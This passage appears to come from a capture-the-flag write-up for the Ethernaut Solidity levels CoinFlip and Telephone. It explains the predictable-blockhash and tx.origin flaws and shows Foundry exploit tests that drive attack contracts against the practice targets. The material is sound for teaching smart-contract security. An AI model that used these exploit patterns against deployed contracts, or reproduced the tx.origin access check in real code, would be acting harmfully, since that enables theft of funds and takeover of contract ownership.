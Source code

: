 **Vulnerability**: Uses predictable `blockhash` to generate randomness. The attacker can precompute the same value and always win the flip.

### 🧪 Exploit Test
```solidity
function test_attack() public {
    vm.startPrank(attacker);

    for (uint256 i = 0; i < 10; i++) {
        vm.roll(block.number + 1);
        coinFlipAttack.attack();
    }

    assertEq(
        coinFlip.consecutiveWins(),
        10,
        "Attack failed to reach 10 wins"
    );

    vm.stopPrank();
}
```

---

## Level 5: Telephone

### 🔍 Vulnerable Function
```solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```

**Vulnerability**: The contract uses `tx.origin` instead of `msg.sender` for access control. An attacker can create a contract that calls this function, with the `tx.origin` being a user (player), and `msg.sender` being the attack contract. This bypasses the condition and changes the ownership.

### 🧪 Exploit Test
```solidity
function test_attack() public {
    vm.startPrank(attacker);
    telephone.changeOwner(attacker);
    assertEq(telephone.owner(), attacker, "attacker should be the owner");
    vm.stopPrank();
}

function test_attack2() public {
    vm.startPrank(player);
    TelephoneExploit exploit = new TelephoneExploit(telephone);
    exploit.attack(attacker);
    assertEq(telephone.owner(), attacker, "attacker should be the owner");
    vm.stopPrank();
}
```
